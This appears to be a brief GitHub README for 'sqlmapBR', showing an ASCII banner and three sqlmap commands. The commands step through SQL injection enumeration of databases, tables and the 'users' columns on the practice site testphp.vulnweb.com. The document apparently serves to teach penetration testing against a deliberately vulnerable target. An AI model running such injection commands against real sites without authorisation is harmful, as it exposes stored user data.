 # sqlmapBR

```
  ___  ___  _    __  __   _   ___ 
 / __|/ _ \| |  |  \/  | /_\ | _ \
 \__ \ (_) | |__| |\/| |/ _ \|  _/
 |___/\__\_\____|_|  |_/_/ \_\_|  
 | _ ) _ \                        
 | _ \   /                        
 |___/_|_\                        
                                  
````                                  


python3 sqlmap -u http://testphp.vulnweb.com/listproducts.php?cat=1 –-dbs


python3 sqlmap -u  http://testphp.vulnweb.com/listproducts.php?cat=1 –-dbs -D acuart –-tables


python3 sqlmap -u http://testphp.vulnweb.com/listproducts.php?cat=1 –-dbs -D acuart -T users –-columns


